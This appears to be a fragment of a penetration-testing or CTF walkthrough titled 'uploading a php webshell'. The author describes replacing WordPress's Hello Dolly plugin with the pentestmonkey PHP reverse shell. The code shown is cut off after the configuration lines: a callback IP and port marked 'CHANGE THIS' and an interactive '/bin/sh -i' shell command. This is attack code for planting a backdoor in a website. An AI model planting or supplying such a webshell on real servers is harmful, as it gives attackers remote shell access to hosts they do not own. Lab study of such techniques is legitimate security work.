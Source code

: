 
----

## uploading a php webshell

I replaced hello dolly with the php webshell

```
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  The author accepts no liability
// for damage caused by this tool.  If these terms are not acceptable to you, then
// do not use this tool.
//
// In all other respects the GPL version 2 applies:
//
// This program is free software; you can redistribute it and/or modify
// it under the terms of the GNU General Public License version 2 as
// published by the Free Software Foundation.
//
// This program is distributed in the hope that it will be useful,
// but WITHOUT ANY WARRANTY; without even the implied warranty of
// MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
// GNU General Public License for more details.
//
// You should have received a copy of the GNU General Public License along
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
```